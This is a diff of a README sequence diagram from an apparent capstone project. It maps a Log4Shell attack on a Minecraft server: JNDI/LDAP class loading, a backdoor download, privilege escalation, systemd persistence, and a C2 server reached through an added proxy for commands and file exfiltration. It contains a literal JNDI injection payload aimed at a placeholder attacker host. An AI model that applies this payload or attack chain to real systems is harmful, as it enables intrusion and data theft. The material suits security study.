

One commit to newmie10/564Capstone changed the diagram in README.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file and 2 other files, not shown here.

````diff
--- a/README.md
+++ b/README.md
@@ -11,40 +11,46 @@
 ```mermaid
 sequenceDiagram
     autonumber
     
     box rgb(255, 230, 230) Attacker Infrastructure
     participant Client as Attacker Client
     participant LDAP as Marshalsec LDAP (1389)
     participant Web8888 as Payload HTTP (8888)
     participant Web8000 as Payload HTTP (8000)
     participant C2 as Docker C2 (5000)
+    participant Proxy as Nginx Proxy (80)
     end
     
     box rgb(230, 240, 255) Victim Infrastructure
     participant Server as Minecraft Server (Victim)
     participant Root as Root OS (sudo/systemd)
     end
 
     Client->>Server: 1. Send Chat: ${jndi:ldap://IP:1389/Beachhead}
     Server->>LDAP: 2. JNDI Lookup for Beachhead
     LDAP-->>Server: 3. HTTP Redirect to Beachhead.class
     Server->>Web8888: 4. GET /Beachhead.class
     Web8888-->>Server: Returns Beachhead.class
     Note right of Server: JVM Executes Beachhead
     Server->>Web8000: 5. Wget /Persistent.elf
     Web8000-->>Server: Returns Backdoor ELF
     Server->>Root: 6. Trigger PrivEsc (CVE-2025-32463)
     Root-->>Server: Spawns root execution context
     Server->>Root: 7. Write & Start systemd-cache.service
-    Note over Root,C2: Persistence Established
-    Root->>C2: 8. POST /checkin (Encrypted Hostname)
+    Note over Root,Proxy: Persistence Established
+    Root->>Proxy: 8. POST /api/v1/checkin (Encrypted Hostname)
+    Proxy->>C2: Forward to /checkin
     loop Every 5-20 seconds (Jittered)
-        Root->>C2: 9. GET /command
-        C2-->>Root: Encrypted Command
+        Root->>Proxy: 9. GET /api/v1/command
+        Proxy->>C2: Forward to /command
+        C2-->>Proxy: Encrypted Command
+        Proxy-->>Root: Return Command
         Note right of Root: Executes locally
-        Root->>C2: POST /result (Encrypted Output)
+        Root->>Proxy: POST /api/v1/result (Encrypted Output)
+        Proxy->>C2: Forward to /result
         opt If Exfil Command
-            Root->>C2: POST /exfil (Encrypted Base64 File)
+            Root->>Proxy: POST /api/v1/exfil (Encrypted Base64 File)
+            Proxy->>C2: Forward to /exfil
         end
     end
 ```
````
